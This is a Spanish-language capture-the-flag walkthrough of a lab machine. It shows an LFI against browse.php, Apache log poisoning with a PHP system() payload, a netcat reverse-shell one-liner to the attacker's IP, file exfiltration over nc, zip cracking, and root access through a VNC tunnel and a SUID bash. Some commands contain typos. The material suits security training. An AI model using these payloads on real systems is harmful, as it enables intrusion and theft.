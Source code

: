 ## Summary

- IP -> 10.10.10.84
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2
    - 80 -> Apache httpd 2.4.29


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
Que es FreeBSD: Es un sistema de codigo abierto para computadoras basado en las CPU de arquitectura x86, Pentium. En la actualidad se ejecuta en once arquitectiras distintas como Alpha, AMD64, IA-64, MISP, PowerPC y UltraSPARC.

Buscamos en la Webpage:

Podemos ponerle al **listfile.php** -> Encontramos un **pwdbackup.txt** que al momento de ponerlo, nos da un passwd encodeada 13 veces en base64 por lo que podemos ver.
- Comando -> **curl -s -X GET "http://10.10.10.84/browse.php?file=pwdbackup.txt" | grep -v "password" | tr -d '\\n' | base64 -d | base64 -d** Miramos las cabeceras de la pagina web (tr=quitamos el salto de linea), hacerlo 13 veces la decode de base 64

Hasta que nos de la passwd.

Si no esta sanitizado podemos hacer un Local File Inclution (LFI) en la Webpage
http://10.10.10.84/browse.php?file=/etc/passwd Y cargamos el archivo passwd de la maquina y ahi podremos ver los usuarios existentes. Por lo que encontramos a charix



----------------
Otra Forma de hacer la maquina es cuando tenemos un LFI y podemos ejecutar comandos Ejecucion Remota de Comandos (RCE) , ahi podemos hacer un Log Poisoning y apuntar a archivos Logs.

Buscamos en Google Freebsd Apache /var/log file 
En FreeBSD la ruta es diferente:
	**/var/log/httpd-access.log** Para ver los log en la Webpage, esto se colocara despues del = de la url de arriba.
	http://10.10.10.84/browse.php?file=/var/log/httpd-access.log  De esta manera...

Ahora nos abrimos el BurpSuite. Para poder capturar la peticion de la url http://10.10.10.84/rce
Una vez dentro de BuroSuite, lo capturamos con la finalidad de que podamos ver el:

Y lo modificaremos en el Repeater
- User-Agent: Mozilla/5.0 ...

En donde ahi podremos borrar el contenido del User-Agent y colocar codigo php para hacer el envenenamiento (Poisoning)
El codigo php inicia ?php
- User-agent: <?p system($_GET['cmd']);  ?>

Ahora en el BurpSuite le damos en el boton Send del Repeater

Y lo que buscaremos injectando el codigo php es que cuando modifiquemos la url de esta manera:
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=whoami
Nos pueda interpretar los comandos que querramos

Sin desactivar el FoxyProxy de la web, nos ponemos a colocar firenetes comandos:
	whoami
	hostname
	ifconfig
	which nc

Quitamos el FoxyProxy de la web 
Ahora nos ponemos en escucha por el puerto 443 del netcat ya que confirmamos que lo tiene. 
- Comando -> **nc -nlvp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux

Buscamos en Google 'Monkey pnetester reverse shell' y nos da una linea que debemos de poner en la url de la web para netcat, debe ser la segunda linea que encontremos en la pagina, ya que no sabemos si el netcat es antiguo o no.

- http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 443 >/tmp/f
	Colocamos nuestra ip en ese comando y el puerto del netcat 
	Debemos de modificar el **&** y pasarlo a formato url-encode que es **%26**

Y este nos da el usuario www


---


## User
Ahora nos conectamos por SSH:
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh

Podemos ver la primer flag user.txt

- Comando -> **ls -l** Miramos el contenido del directorio y sus permisos (l=ele)
- Comando -> **nc -nlvp 443 > secret.zip** Nos ponemos en escucha por el puerto 443 en nuestra maquina de atacante, maquinas Linux y lo que recibamos lo colocamos en el archivo secret.zip

- Comando -> **nc 10.10.17.4 443 < secret.zip** En la maquina victima hacemos esto para mandar el arhivo que hemos encontrado a la maquina de atacante.

- Comando -> **7z l secret.zip** (l=ele) Podemos ver el contenido interno del archivo zip, gz, bzip2, etc...
- Comando -> **7z x secret.zip** (l=ele) Podemos extraer el contenido interno del archivo zip, gz, bzip2, etc...

Como nos pide una passwd. Podemos usar la herramienta John para que primero nos de un Hash y despues crackear y obtener su passwd.

- Comando -> **zip2john secret.zip > hash** Para que nos devielva el Hash y asi despues poderlo crackear y el resultado del hash lo metemos a un archivo llamado 'hash'.
- Comando -> **john -w:/usr/share/wordlists/rockyou.txt hash** Aplicamos un ataque de fuerza bruta a un archivo hash y como resultado no lo ha encontrado

Recordamos que tenemos una passwd y la colocamos para ver si es la misma. 

Una vez descargado el archivo, procedemos a ver le contenido 
- Comando -> **cat secret** Observamos el contenido del archivo, y miramos cosas raras.
- Comando -> **xxd secret** Para mirar los magic numbers del archivo

Ponemos en Google 'List of Signatures' para poder ver cual seria el resultado de los magic numbers. Y encontramos que es:
no es nada

Ahora seguiremos listando la maquina:
- Comando -> **netstat -na -p tcp** Podemos ver los puertos abiertos en la mquina 
- Comando -> **ps -faux** Listas los procesos que corren en la maquina Linux
Encontramos un **tightvnc**. Esto es una aplicacion informatica de codigo abierto para administracion remota multiplataforma que utiliza el protocolo RFB deVNC para controlar panatlla de otro equipo de forma remota. Y los puerto que comunmente corre es el 5900-5901, 5800-5801

Tenemos el puerto 5901 abierto en la maquina victima, por lo que lo podemos usar para hacer la conexion con el viewer sin usar chisel. 
Ahora usaremos un Dinamic Port Forwarding 

Modificaremos el:
**nano /etc/proxychains.conf** Modificaremo este archivo en nuestra maquina
	socks4 127.0.0.1 1080 -> Haremos que la conexion para nuestra maquina se efectue en el puerto 1080


## Root
- Comando -> **ssh < user>@< IP> -D 1080** Para conectarnos por ssh (D=Dinamic Port Forwarding) y colocamos el puerto que anteriormente habiamos configurado y le colocamos la passwd que teniamos de Charix
- Comando -> **proxychains vncviewer -passwd secret 127.0.0.1:5901** Nos permite conectarnos al vncviewer de una maquina remotamente
	passwd -> Archivo qiue habiamos encontrado con las passwd llamado secret

Podremos visualizar la flag root.txt

Ademas podemos darle privilegios al usuario Charix para que desde la conexion que ya tenemos por ssh podamos convertirnos en root. 
- Comando -> **chmod u+s /bin/bash** Para darle privilegios a la bash suid en este caso desde la interfaz remota
- Comando -> **ls -l /bin/bash** Miramos los privilegios de la bash en el usuario Charix
- Comando -> **/binbash** Colocamos ese comando en el usuario Charix y ya seriamos root